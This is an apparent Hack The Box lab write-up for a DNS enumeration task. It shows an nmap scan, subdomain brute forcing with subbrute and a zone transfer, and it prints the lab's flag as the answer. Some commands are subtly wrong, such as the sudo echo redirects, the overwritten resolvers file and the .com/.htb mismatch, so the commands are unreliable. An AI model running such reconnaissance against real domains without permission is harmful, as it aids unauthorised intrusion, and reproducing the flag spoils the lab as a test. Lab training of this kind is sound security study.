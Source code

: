 # DNS

### Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

```bash
nmap -p53 -Pn -sV 10.129.203.6
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
```

lets prepare

```bash
sudo echo '10.129.203.6 inlanefreight.com' >> /etc/hosts
sudo echo '10.129.203.6 ns1.inlanefreight.com' >> /etc/hosts
sudo echo '10.129.203.6 ns2.inlanefreight.com' >> /etc/hosts
```

now we dig further

```bash
git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1
cd subbrute
echo "ns1.inlanefreight.com" > ./resolvers.txt
echo "ns2.inlanefreight.com" > ./resolvers.txt
./subbrute.py inlanefreight.htb -s ./names.txt -r ./resolvers.txt
hr.inlanefreight.htb
```

now we transfer it

```bash
dig AXFR @ns1.inlanefreight.htb hr.inlanefreight.htb
hr.inlanefreight.htb.   604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
hr.inlanefreight.htb.   604800  IN      TXT     "HTB{LUIHNFAS2871SJK1259991}"
hr.inlanefreight.htb.   604800  IN      NS      ns.inlanefreight.htb.
ns.hr.inlanefreight.htb. 604800 IN      A       127.0.0.1
hr.inlanefreight.htb.   604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
```

HTB{LUIHNFAS2871SJK1259991}

